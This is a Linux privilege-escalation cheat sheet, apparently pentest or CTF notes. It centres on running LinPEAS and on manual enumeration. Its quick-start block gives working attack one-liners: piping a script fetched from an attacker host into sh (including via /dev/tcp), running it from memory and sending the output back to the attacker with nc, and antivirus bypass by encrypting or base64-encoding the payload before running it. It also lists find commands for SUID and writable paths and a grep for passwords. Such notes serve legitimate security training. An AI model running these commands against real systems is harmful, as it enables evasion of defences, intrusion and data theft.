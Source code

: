 # Linux priv esc

#### Enumeration

* LinPeas: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)&#x20;

Quick Start

```
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

#Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

#Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

#Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors

#AV bypass

#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

* LinEnum: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)&#x20;
* LES (Linux Exploit Suggester): [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)&#x20;
* Linux Smart Enumeration: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)&#x20;
* Linux Priv Checker: [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)&#x20;
* Enum4linux&#x20;

#### Manual enumeration

```
hostname
uname -a
/proc/version
/etc/issue
ps -A #View all running processes
ps axjf #View process tree
env
sudo -l
ls -lah
id
/etc/passwd
history
ifconfig
ip a

```

**Netstat**

```
netstat -a # shows all listening ports and established connections.
netstat -at or netstat -au  #can also be used to list TCP or UDP protocols respectively.
netstat -l #  list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)
netstat -s #  list network usage statistics by protocol (below) This can also be used with the -t or -u options to limit the output to a specific protocol.
netstat -tp # list connections with the service name and PID information.
netstat -i # Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.
netstat -ano # which could be broken down as follows;
# -a: Display all sockets
# -n: Do not resolve names
# -o: Display timers
```

#### Find Command

```
find . -name flag1.txt # find the file named “flag1.txt” in the current directory
find /home -name flag1.txt # find the file names “flag1.txt” in the /home directory
find / -type d -name config    # find the directory named config under “/”
find / -type f -perm 0777     # find files with the 777 permissions 
# (files readable, writable, and executable by all users)
find / -perm a=x    # find executable files
find /home -user frank # find all files for user “frank” under “/home”
find / -mtime 10 # find files that were modified in the last 10 days
find / -atime 10 # find files that were accessed in the last 10 day
find / -cmin -60 # find files changed within the last hour (60 minutes)
find / -amin -60 # find files accesses within the last hour (60 minutes)
find / -size 50M # find files with a 50 MB size

# Folders and files that can be written to or executed from:

find / -writable -type d 2>/dev/null # Find world-writeable folders
find / -perm -222 -type d 2>/dev/null # Find world-writeable folders
find / -perm -o w -type d 2>/dev/null # Find world-writeable folders
find / -perm -o x -type d 2>/dev/null # Find world-executable folders

# Find development tools and supported languages:

find / -name perl*
find / -name python*
find / -name gcc*

find / -perm -u=s -type f 2>/dev/null # Find files with the SUID bit, 
#which allows us to run the file with a higher privilege level than the 
#current user.
```

#### General Linux Commands

As we are in the Linux realm, familiarity with Linux commands, in general, will be very useful. Please spend some time getting comfortable with commands such as `find`, `locate`, `grep`, `cut`, `sort`, etc.



```
grep ./*  -e 'password' #find string in files
```

****

